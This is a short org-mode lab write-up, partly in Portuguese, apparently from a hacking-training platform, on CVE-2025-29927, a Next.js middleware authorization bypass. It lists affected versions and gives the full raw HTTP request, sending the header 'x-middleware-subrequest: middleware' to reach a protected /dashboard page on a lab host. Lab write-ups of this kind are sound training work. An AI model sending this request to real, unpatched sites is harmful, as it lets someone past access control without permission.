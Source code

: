 #+title: Middleware Bypass
#+author: gabriel

* intro
Next.js is an open-source web framework developed by Vercel that powers React-based applications with capabilities such as server-side and static rendering.

This laboratory contains a critical vulnerability in Next.js middleware functionality, identified as CVE-2025-29927. The flaw allows complete bypass of middleware-based authorization by including a specially crafted x-middleware-subrequest header in HTTP requests. This is especially dangerous for applications that depend on middleware for access control, path rewrites, server redirects, and security headers such as Content Security Policy (CSP).

The vulnerability affects Next.js versions 11.1.4 through 13.5.6, 14.x before 14.2.25, and 15.x before 15.2.3.

What is the secret on the /dashboard page accessible by bypassing access control?

* with curl and burp
Após enviar a request para um endpoint identificado porém que exige autenticação, use o header x-middleware-subrequest: middleware para o exploit
#+begin_src sh
GET /dashboard HTTP/1.1
Host: dynamic-lettuce.europe1.hackviser.space
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: keep-alive
Content-Length: 0
x-middleware-subrequest: middleware
#+end_src

e então o bypass será executado
